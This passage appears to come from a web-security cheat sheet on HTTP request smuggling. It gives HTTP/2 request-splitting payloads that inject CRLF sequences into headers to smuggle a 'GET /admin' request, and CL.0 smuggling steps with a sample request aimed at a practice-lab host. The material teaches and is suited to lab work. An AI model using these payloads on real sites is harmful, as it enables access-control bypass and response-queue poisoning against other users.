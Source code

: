 ## <mark style="color:purple;">HTTP/2 request splitting</mark>

This approach is more versatile, allowing even GET requests without relying on methods that support a body.

```http
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                \r\n
                GET /admin HTTP/1.1\r\n
                Host: vulnerable-website.com
```

During rewriting, some front-end servers append the new `Host` header after existing ones. With HTTP/2, this places it after the `foo` header, leaving the first request without a `Host` header and the smuggled one with two. Inject your `Host` header so that it ends up in the first request once.

```
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                Host: vulnerable-website.com\r\n
                \r\n
                GET /admin HTTP/1.1
```

{% hint style="info" %}
**Note**: here the request triggerg response queue poisoning, but you can also smuggle prefixes for classic request smuggling.
{% endhint %}

## <mark style="color:purple;">CL.0/H2.0 request smuggling</mark>

Some servers ignore the `Content-Length` header, treating requests as ending at the headers, effectively making `Content-Length 0`. If the back-end behaves this way while the front-end uses Content-Length, this discrepancy enables HTTP request smuggling, termed a "CL.0" vulnerability.

**Find an endpoint that ignores Content-Length**

* POST request to a static file
* POST request to server level redirect (`Location` header in the response)
* POST request that triggers a server side error

**Exploitation**

1. Create one tab containing the setup request and another containing an arbitrary follow-up request.
2. Add the two tabs to a group in the correct order.
3. Change the Connection header to `keep-alive`.
4. Send group in sequence (single connection)

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /404 HTTP/1.1
Foo: x
```



